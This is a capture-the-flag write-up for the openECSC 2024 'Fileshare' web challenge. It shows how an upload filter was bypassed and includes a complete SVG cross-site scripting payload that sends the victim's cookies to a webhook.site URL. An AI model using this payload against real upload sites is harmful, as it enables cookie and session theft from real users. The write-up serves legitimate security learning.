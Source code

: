 # CTF Info

- CTF name: openECSC 2024 - Round 1
- Challenge name: Fileshare
- Category: Web
- Points: 50
# Description

```
You can now share your files for free thanks to our new disruptive technology!

Site: https://fileshare.challs.open.ecsc2024.it
```
# Initial thoughts

We are presented a web page, where we see 3 tabs: `Files`, `Upload`, and `Support`. The following picture illustrates the front page by simply accessing `https://fileshare.challs.open.ecsc2024.it/`.

![[fileshare_startpage.png]]

As soon as I read "Upload", I kind of knew in which direction this challenge would go without even having a look at the source code. I was thinking that it would be possible to upload something malicious that would lead me to the flag. 
We have the advantage of having a deeper look into the source code because it comes with the challenge. I always tend to first inspect the `docker-compose.yml` file to find the location of the flag on the server. By doing this, I saw that the flag was stored in the environment variable `FLAG`.

![[docker-compose.png]]

We also see that there are some other weird containers. `Headless`? `RabbitMQ`? `Worker`? What the hell is supposed to be that?

> **Note**: The `headless` servers are not exposed to the public. So it is not possible to reach this server without having access to that network.

Let's take an even closer look at the PHP code. First, let's start by finding out if and where the environment variable `FLAG` gets called. After clicking through the PHP files, I found an interesting function in `support.php`:

![[support_php_code.png]]

Let's give this function a little rundown: If there is a `POST` request on `https://fileshare.challs.open.ecsc2024.it/support.php`, where the parameters `email`, `fileid` and `message` are set and the `fileid` matches a specific pattern, a JSON will be sent to the `HEADLESS_HOST`, which we have seen earlier in the `docker-compose.yml`. But what is in that JSON? Well, I think this goes out of scope, but I did some research on the `headless` Docker image. By searching `https://hub.docker.com` for `cybersecnatlab` I found the `challenge-headless` image. There is a `README`, which gives a pretty good insight about the `request` function we are going to use from the `headless` container.

![[headless_request_doc.png]]

Next, there is also a description of the `set-cookie` option.

![[headless_set-cookie_doc.png]]

Okay, so let's summarize this: We are letting the `headless` container do 2 HTTP requests. First, he is simply accessing the site. Next, the container sets a `flag` cookie that contains the flag we need from the environment of the webserver. Next, we are requesting the `download.php` and adding the `id` parameter with the corresponding `fileid`. So, what if we upload a file that contains evil JavaScript code (**XSS**) that makes the `headless` container request a webpage with our flag as an URL parameter or something?
Let's look at the `upload.php` to see the conditions of uploading a file, since it can't be that easy, right? At first this PHP script seems like a usual file upload, but there's a weird check.

```php
$type = $_FILES["file"]["type"];
// I don't like the letter 'h'
if ($type == "" || preg_match("/h/i", $type) == 1){
    $type = "text/plain";
}
```

First, the `Content-Type` of the file gets parsed, and if it contains an `h` it will translate the `Content-Type` to `text-plain`. It's also not possible to circumvent this by inputting an `H`, since the match is case-insensitive. So we can't just upload a `.html` file and input some JavaScript like this:

```html
<script>
	alert(document.cookie)
</script>
```

So we need to find another way...
# The solution

The first resource I always use to research certain hacking topics is **[HackTricks](https://book.hacktricks.xyz/)**. For those of you who don't know: HackTricks is a great collection of hacking tricks that is updated by the community as much as possible.

So, I found a page about [XSS (Cross Site Scripting)](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting) and under `Web Content-Types to XSS` some `Content-Types` are listed that can execute JavaScript in all browsers.

![[hacktricks_js_content-types.png]]

I used `svg`, just because ( ͡° ͜ʖ ͡°) (xml would have worked also perfectly fine). Later, we also find some payloads for `XSS` in `svg`. I took a payload and adjusted it to fit my needs.

```xml
<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
   <script type="text/javascript">window.location="https://webhook.site/4a02a680-6499-4ad2-b83e-b429c9f27526?c=".concat(document.cookie)</script>
</svg>
```

What does this do? The `window.location` simply redirects the browser to the URL I specified. Additionally, the `flag` will be inserted as a parameter on the end of the URL with the `document.cookie` function. The URL I used is [Webhook](https://webhook.site), also a great resource to test [Server-side request forgery (SSRF)](https://portswigger.net/web-security/ssrf) or, like in this case, `XSS`. We can set up a unique URL that can be accessed by everyone. If somebody visits that unique URL we will get some information about the person that accessed that URL. The following picture shows an example request, where I requested that unique URL.

![[webhook_test_req.png]]

Now let's create a file with that content, name it `exploit.svg` and upload it to the site. After that, we can see under `/files.php` that the file was successfully uploaded.

![[uploaded_exploit.png]]

Great. Now, we only need to send a support ticket. But wait, we discovered earlier that we need the `fileid`. By right-clicking `exploit.svg` and then clicking on inspect, we see the `fileid`. I recognized it by the `id` tag.

![[parsing_file_id.png]]

Let's copy that and head back to the support page. We can basically insert anything into the `Email` and `Message` field; the only important thing is the correct file ID, under which the `headless` container will later know which file he has to access (in this case, our `exploit.svg`).

After submitting that, it can be observed that a request was made to our unique URL and that the flag was added as a parameter to the URL.

![[viewing_flag_in_webhook.png]]

# Lessons learned

- Just because `html` is not possible to upload, doesn't necessarily mean that it is not possible to execute JavaScript code in a browser.
- `svg` files are also able to execute JavaScript code in a browser through XML.
# Conclusion

In conclusion, navigating the `Fileshare` challenge within the openECSC 2024 CTF provided valuable insights into basic web exploitation techniques. From the onset, scrutinizing the web page interface hinted at potential vulnerabilities surrounding file uploads. By delving into the provided source code and leveraging insights from resources like HackTricks, we strategically identified the flag's location within the environment variable `FLAG` and orchestrated an effective exploit utilizing cross-site scripting (XSS) techniques.
The successful execution of the exploit, facilitated by crafting an `exploit.svg` file and manipulating support ticket submissions, underscored the importance of meticulous reconnaissance and creativity in cybersecurity challenges. This experience not only showcased technical proficiency but also highlighted the significance of community resources and innovative thinking in navigating intricate cybersecurity scenarios.